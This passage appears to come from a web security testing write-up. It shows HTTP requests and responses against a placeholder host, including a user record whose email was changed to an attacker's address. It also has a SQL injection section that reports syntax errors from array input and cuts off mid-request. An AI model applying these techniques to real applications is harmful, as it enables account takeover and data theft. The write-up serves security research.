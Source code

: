 ```http
GET /user_detail HTTP/2
Host: abc.com
Cookie: blah....blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Csrf-Token: csrf_token_value
Referer: https://abc.com/dashboard
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "user_Id": "2abaac0a-4af8-4101-a763-9d0229cafb12",
  "email": "attacker@thevillagehacker.com",
  "Mobile": "9874563217",
  "role": "Analyst",
  "isActive": true
}
```

The response contains the user's details, including the updated email address.

## SQL Injection

Attempts to exploit SQL injection vulnerabilities on the application were unsuccessful. However, this new array method shows potential for further exploration.

When special characters and spaces are added as input in the array, the server responds with a SQL syntax error.

### Request

```http
POST /editUser HTTP/2
Host: abc.com
Cookie: blah....blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Csrf-Token: csrf_token_value
Referer: https://abc.com/dashboard
Content-Length: 534
Origin: https://abc.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
```